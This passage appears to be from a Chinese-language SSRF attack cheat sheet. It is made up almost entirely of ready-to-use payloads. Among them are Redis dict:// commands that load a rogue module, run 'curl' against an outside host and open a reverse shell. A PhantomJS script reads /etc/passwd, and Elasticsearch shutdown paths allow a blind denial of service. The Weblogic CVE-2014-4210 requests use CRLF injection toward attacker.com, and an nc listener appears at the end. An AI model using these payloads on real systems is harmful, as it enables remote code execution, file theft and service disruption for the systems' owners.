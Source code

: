 	?url=dict://127.0.0.1:6379/config:set:dbfilename:test.php
	?url=dict://127.0.0.1:6379/save
	?url=dict://127.0.0.1:6379/slaveof:no:one
  ##### slaveof反弹shell
	?url=dict://127.0.0.1:6379/slaveof: yourredisIP:6379
	?url=dict://127.0.0.1:6379/config:set:dbfilename:exp.so
	?url=dict://127.0.0.1:6379/MODULE:LOAD:./exp.so
	?url=dict://127.0.0.1:6379/SLAVEOF:NO:ONE
	?url=dict://127.0.0.1:6379/config:set:dbfilename:dump.rdb
	?url=dict://127.0.0.1:6379/system.exec:'curl x.x.x.x/x'
	?url=dict://127.0.0.1:6379/system.rev:x.x.x.x:8887
  ##### SSRF+PDF
  	<link rel=attachment href="file:///root/secret.txt">
	PhantomJS示例
```javascript
<script>
    exfil = new XMLHttpRequest();
    exfil.open("GET","file:///etc/passwd");
    exfil.send();
    exfil.onload = function(){document.write(this.responseText);}
    exfil.onerror = function(){document.write('failed!')}
</script>
```
  ##### 盲SSRF
  	假设存在一个盲SSRF
  ###### Elasticsearch
  	默认端口：9200
	检查以下端点是否返回 200：
	/_cluster/health
	/_cat/indices
	/_cat/health
	如果存在POST请求的盲SSRF，可以请求以下路径关闭Elasticsearch
	仅适用于 Elasticsearch 1.6 及以下版本
	/_shutdown
	/_cluster/nodes/_master/_shutdown
	/_cluster/nodes/_shutdown
	/_cluster/nodes/_all/_shutdown
  ###### Weblogic
  	默认绑定端口：80、443（SSL）、7001、8888
	CVE-2014-4210
	POST /uddiexplorer/SearchPublicRegistries.jsp HTTP/1.1
	Host: target.com
	Content-Length: 137
	Content-Type: application/x-www-form-urlencoded

	operator=http%3A%2F%2FSSRF_CANARY&rdoSearch=name&txtSearchname=test&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
	get请求
	http://target.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http%3A%2F%2FSSRF_CANARY&rdoSearch=name&txtSearchname=test&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
	CRLF 注入
	GET /uddiexplorer/SearchPublicRegistries.jsp?operator=http://attacker.com:4000/exp%20HTTP/1.11%0AX-CLRF%3A%20Injected%0A&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search HTTP/1.0
	Host: vuln.weblogic
	Accept-Encoding: gzip, deflate
	Accept: */*
	Accept-Language: en
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
	Connection: close
	结果
	root@mail:~# nc -lvp 4000